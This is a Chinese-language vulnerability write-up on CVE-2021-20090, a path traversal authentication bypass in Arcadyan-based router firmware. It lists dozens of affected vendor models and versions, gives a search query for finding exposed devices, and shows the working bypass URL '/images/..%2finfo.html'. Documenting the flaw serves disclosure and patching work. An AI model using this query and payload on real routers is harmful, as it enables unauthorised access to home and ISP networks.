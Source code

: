 # Arcadyan固件 image 路径遍历漏洞 CVE-2021-20090

# Arcadyan固件 image 路径遍历漏洞 CVE-2021-20090

## 漏洞描述

Arcadyan 制造的网络设备的 Web 界面中存在路径遍历漏洞，包括 Buffalo WSR-2533DHPL2 固件版本 <= 1.02 和 WSR-2533DHP3 固件版本 <= 1.24，可能允许未经身份验证的远程攻击者绕过身份验证。

## 漏洞影响

| **Vendor**          | **Device**                         | **Found on version** |
| ------------------- | ---------------------------------- | -------------------- |
| ADB                 | ADSL wireless IAD router           | 1.26S-R-3P           |
| Arcadyan            | ARV7519                            | 00.96.00.96.617ES    |
| Arcadyan            | VRV9517                            | 6.00.17 build04      |
| Arcadyan            | VGV7519                            | 3.01.116             |
| Arcadyan            | VRV9518                            | 1.01.00 build44      |
| ASMAX               | BBR-4MG / SMC7908 ADSL             | 0.08                 |
| ASUS                | DSL-AC88U (Arc VRV9517)            | 1.10.05 build502     |
| ASUS                | DSL-AC87VG (Arc VRV9510)           | 1.05.18 build305     |
| ASUS                | DSL-AC3100                         | 1.10.05 build503     |
| ASUS                | DSL-AC68VG                         | 5.00.08 build272     |
| Beeline             | Smart Box Flash                    | 1.00.13_beta4        |
| British Telecom     | WE410443-SA                        | 1.02.12 build02      |
| Buffalo             | WSR-2533DHPL2                      | 1.02                 |
| Buffalo             | WSR-2533DHP3                       | 1.24                 |
| Buffalo             | BBR-4HG                            |                      |
| Buffalo             | BBR-4MG                            | 2.08 Release 0002    |
| Buffalo             | WSR-3200AX4S                       | 1.1                  |
| Buffalo             | WSR-1166DHP2                       | 1.15                 |
| Buffalo             | WXR-5700AX7S                       | 1.11                 |
| Deutsche Telekom    | Speedport Smart 3                  | 010137.4.8.001.0     |
| HughesNet           | HT2000W                            | 0.10.10              |
| KPN                 | ExperiaBox V10A (Arcadyan VRV9517) | 5.00.48 build453     |
| KPN                 | VGV7519                            | 3.01.116             |
| O2                  | HomeBox 6441                       | 1.01.36              |
| Orange              | LiveBox Fibra (PRV3399)            | 00.96.00.96.617ES    |
| Skinny              | Smart Modem (Arcadyan VRV9517)     | 6.00.16 build01      |
| SparkNZ             | Smart Modem (Arcadyan VRV9517)     | 6.00.17 build04      |
| Telecom (Argentina) | Arcadyan VRV9518VAC23-A-OS-AM      | 1.01.00 build44      |
| TelMex              | PRV33AC                            | 1.31.005.0012        |
| TelMex              | VRV7006                            |                      |
| Telstra             | Smart Modem Gen 2 (LH1000)         | 0.13.01r             |
| Telus               | WiFi Hub (PRV65B444A-S-TS)         | v3.00.20             |
| Telus               | NH20A                              | 1.00.10debug build06 |
| Verizon             | Fios G3100                         | 2.0.0.6              |
| Vodafone            | EasyBox 904                        | 4.16                 |
| Vodafone            | EasyBox 903                        | 30.05.714            |
| Vodafone            | EasyBox 802                        | 20.02.226            |

## 网络测绘

```
app="Arcadyan-httpd-1.0" 
```

## 漏洞复现

登录页面

![img](/images/202202162257437.png)

通过目录遍历访问主页面 info.html

```php
/images/..%2finfo.html
```

![img](/images/202202162257566.png)

